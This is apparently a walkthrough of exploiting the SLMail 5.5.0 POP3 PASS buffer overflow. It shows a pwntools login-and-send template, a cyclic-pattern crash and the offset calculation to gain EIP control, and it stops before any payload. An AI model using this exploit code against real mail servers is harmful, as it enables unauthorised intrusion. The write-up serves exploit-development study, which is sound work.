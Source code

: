 # SLMail 5.5.0 Stack Buffer Overflow
References: 
- https://www.rapid7.com/db/modules/exploit/windows/pop3/seattlelab_pass/
  
*There exists an unauthenticated buffer overflow vulnerability in the POP3 server of Seattle Lab Mail 5.5 when sending a password with excessive length. Successful exploitation should not crash either the service or the server; however, after initial use the port cannot be reused for successive exploitation until the service has been restarted.*

## Exploitation

### 1. Control EIP
To start with, make sure I can interact with the server fine programatically. Make a basic pwntools template which can login and send the password which will contain the exploit.
```python
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

exploit = 'test'

info(io.recv(4096))
io.sendline('USER jack')
info(io.recv(4096))
io.sendline(f'PASS {exploit}')
info(io.recv(4096))
```
Now I can generate a cyclic pattern and send it to the program to cause a crash. I send a patten with a length of 2000. This causes the access violation at location `0x61636162`

![UI Screenshot](img/01.png)  

```bash
┌──(kali㉿kali)-[~/Documents/bof]
└─$ pwn cyclic -l 0x61636162
2604
```
The offset is shown to be 2604. With this, we have control of EIP.  
* Note: I need to revise this to 2606 after noticing the access violation was off from this point onward. This shows it is important to retest your offset in the program to verify you've landed it right.
